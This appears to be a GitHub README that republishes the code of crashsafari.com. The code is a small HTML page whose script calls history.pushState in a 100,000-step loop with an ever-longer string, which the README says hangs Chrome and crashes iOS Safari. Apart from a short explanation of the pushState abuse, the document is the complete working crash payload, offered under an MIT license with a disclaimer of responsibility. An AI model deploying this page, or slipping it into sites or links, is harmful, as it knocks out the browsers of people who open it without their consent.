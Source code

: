 # crashsafari


This readme contains the code from `crashsafari.com`. For obvious reasons there are no links to the site. I am not the original author of the site.


## Results

Visiting `crashsafari.com` causes the browser to hang on Chrome, and crash on iOS Safari.

## Explanation

The code exploits the [HTML5 pushState](https://developer.mozilla.org/en-US/docs/Web/API/History_API) API used on all modern browsers to update the path of the site you are visiting during JavaScript page navigation.


Instead of just changing the path from ex. `example.com/pageone` to `example.com/pagetwo` it creates a string of numbers long enough to either slow the browser until it won't function, or crash.

## Code

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>What were you expecting?</h1>
    <script>
      var total = "";
      for( var i = 0; i < 100000; i++ ) {
          total = total + i.toString();
          history.pushState(0,0, total );
      }
    </script>
  </body>
</html>
```


License [MIT](LICENSE)

Original code taken from `http://crashsafari.com`

(I am not responsible for whatever is done with this, etc)

